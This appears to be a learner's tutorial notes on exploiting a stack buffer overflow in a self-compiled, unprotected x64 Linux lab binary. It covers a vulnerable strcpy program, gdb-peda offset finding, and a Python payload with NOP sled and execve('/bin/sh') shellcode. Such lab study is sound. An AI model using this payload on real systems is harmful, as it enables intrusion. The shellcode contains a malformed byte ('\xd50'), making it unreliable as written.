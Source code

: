 Resources used : https://www.youtube.com/watch?v=gxU3e7GbC-M : x64 Linux Binary Exploitation Training : Souce Meets Sink | https://www.theoffensivelabs.com/p/x64-linux-binary-exploitation-live-training 

So lets start with our basic BufferOverflow, I am using the code the course provided us with :
```c
#include<stdio.h> 
#include<string.h> 
void vuln_func(char *input); 

int main(int argc, char *argv[]){ 
	if(argc>1) 
	vuln_func(argv[1]); 
} 
	
void vuln_func(char *input){ 
	char buffer[256]; 
	strcpy(buffer, input); 
}
```
(This code was taken from the course, and is not written by me)

and then we can use gdb to compile the code for us without any protections. For most of our exploit development core files are very important as they have all the infromation about the dump for us and this is generated automatically when we get a segfault. If it doesnt generate automatically we can use :

```bash
ulimit -c unilimited
```

and then from this core file we can analyse whatever happened in the crash and we can analyse these core files using gdb like this :
```bash
gdb -core core
```

With 64bit we wont be by default see 4141414141 on RIP due to a concept called canonical bytes so with these exploits we usually overwrite the RBP and if thats overwritten thats all we need as out of the box.

We can load up binaries in GDB like so : 

```
gdb ./binary
```
Ideally you would also wanna do checksec on the binary but as we compiled it we know its alright and has no security enabled.

and then if we have a paylaod file with us we can use/pass our payload to it like this :

```
run $(cat payloadfile)
```

and ideally its a good Idea to also put a breakpoint at main to analyse the registers.
We can dissasmble and see assembly code of a function using the command `disas main` or `disas func`

Also break points are put using `b *address` and then you can continue `c`.

So we wont be able to overwrite the RIP as if you see the vmap of the binary we will see that out of the 64 bit only 48bits are used which is called canonical addressing so when you address a memory you can only use 48bit addresses but when we are overwriting it we are passing it a 8 byte (64 bits) addressing (non canonical) and the RIP wont accept it and these addresses are only used by the kernel and to pass a canonical byte to the RIP we need to get the offset of RBP and then using that information to overwrite the RIP with 6 bytes in the non-cononical addressing.

To get this offset we can use pattern_create which is a module in gdb-peda which is what i am using

```bash
gdb-peda> pattern_create 400 payload.txt
gdb-peda> run $(cat payload.txt)
```
after doing this with enough of a payload to crash a segfault and overwriting the RBP we can copy the value in RBP and use pattern_offset
```bash
gdb-peda> pattern_offset "RBPText"
```
and it will give us the exact offset to overwrite the RBP, now we can overwrite the RBP using the offset and supplying input for the RBP where we can use non-canonical addressing bytes(8 bytes) and then pass a canonical address (6 bytes) to overwrite the RIP with the 6bytes we passed like so :

```python

# Assuming offset is 128
padding = "A" * 128
rbpvalue = "B" * 8 # noncanonical addressing
ripvalue = "C" * 6 # canonical addressing
```

ret does pop rip which pops the value on the top of the stack to RIP. Here is some shellcode from the course that we can use :
```bash
\x48\x31\xc0\x48\x89\xc2\x48\x89\xd6\xd50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x48\x83\xc0\x3b\x0f\x05
```

Now we can use the shellcode and modify the pading and use some payloads to exploit this.

```python
offset = 128 
shellcode = "\x48\x31\xc0\x48\x89\xc2\x48\x89\xd6\xd50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x48\x83\xc0\x3b\x0f\x05"

nop = "\x90" * 12

offset = offset - len(shellcode) - len(nop)
padding = "A" * offset 
rbpvalue = "B" * 8 # noncanonical addressing
ripvalue = "C" * 6 # canonical addressing
payload = nop + shellcode + padding + rbpvalue + ripvalue
```

Now we need to find the address where our payload is stored using gdb and the x/50gx function and printing the stuff near $rsp and subtracting a little bit of padding we sent from it like this : 
```bash
x/50gx $rsp-140
```
but sometimes we wont get the exact same address in gdb that we will get while execute thats when we can use the core file and see where the address is and modify our exploit and then gg.


